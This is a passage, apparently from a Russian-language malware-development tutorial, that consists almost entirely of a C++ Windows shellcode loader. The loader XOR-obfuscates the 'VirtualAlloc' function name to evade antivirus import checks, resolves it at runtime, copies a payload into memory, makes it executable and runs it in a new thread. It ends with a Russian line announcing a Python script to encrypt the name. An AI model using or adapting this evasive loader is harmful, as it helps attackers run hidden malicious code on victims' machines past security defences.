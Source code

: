 ```cpp
);

void XOR(char * data, size_t data_len, char * key, 
size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
    if (j == key_len - 1) j = 0;
    data[i] = data[i] ^ key[j];
    j++;
  }
}

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  XOR((char *) cVirtualAlloc, cVirtualAllocLen, 
  mySecretKey, sizeof(mySecretKey));

  // Allocate a memory buffer for payload
  pVirtualAlloc = GetProcAddress(
  GetModuleHandle("kernel32.dll"), cVirtualAlloc);

  my_payload_mem = pVirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, 
  my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE) my_payload_mem, 
    0, 0, 0);
	WaitForSingleObject(th, -1);
  }
  return 0;
}

```

И используем скрипт Python для шифрования XOR нашего имени функции и замены:    
